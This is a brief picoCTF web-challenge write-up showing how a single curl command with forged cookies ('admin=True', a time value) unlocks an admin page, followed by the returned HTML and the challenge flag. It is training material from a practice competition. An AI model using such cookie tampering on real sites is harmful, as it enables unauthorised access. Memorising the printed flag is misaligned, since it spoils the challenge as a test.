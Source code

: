 This is a web exploitation challenge that can be easily exploited by changing the cookie value.

One way of doing this would be by using the following commands,:
```
curl "https://jupiter.challenges.picoctf.org/problem/64751/flag" -H "Cookie: time=1400; admin=True;" -s | grep picoCTF
```

Such a command uses `curl` to change the values of the cookie and the following output will be obtained:
```
<p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{0p3n_t0_adm1n5_132f8585}</code></p>
```

The flag is : `picoCTF{0p3n_t0_adm1n5_132f8585}`